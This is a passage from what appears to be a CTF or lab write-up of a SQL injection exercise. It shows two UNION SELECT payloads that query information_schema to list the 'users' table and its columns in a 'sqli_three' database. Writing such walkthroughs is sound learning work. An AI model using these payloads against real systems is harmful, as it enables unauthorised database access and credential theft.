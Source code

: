 ![table name](images/21-table-name.png)<br/>

    admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name='users';--
![full table name](images/22-full-table-name.png)<br/>
After many tryed i've found full table name, which is `users`<br/>

    admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME !='%username%'; ---